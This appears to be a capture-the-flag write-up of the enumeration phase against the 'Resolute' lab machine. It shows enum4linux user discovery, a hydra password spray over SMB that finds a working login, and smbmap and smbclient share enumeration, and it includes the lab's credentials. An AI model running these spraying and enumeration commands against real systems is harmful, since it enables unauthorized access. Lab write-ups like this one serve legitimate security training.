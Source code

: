 # Resolute
## Enumeration

enum4linux gave us some interesting things:
	- Some users
	- A password for marko : Welcome123!

I tried to connect as marko with the password and it was a fail 

So i decide to try with hydra to try every user with the password.
```bash 
hydra -L names.txt -P password.txt 10.10.10.169 smb
```

[445][smb] host: 10.10.10.169   login: melanie   password: Welcome123!

so i can connect and enum as melanie with smbclient - smbmap	
```bash
smbmap -u melanie -H 10.10.10.169 -p Welcome123!
smbclient //10.10.10.169/SYSVOL -U melanie -p
```
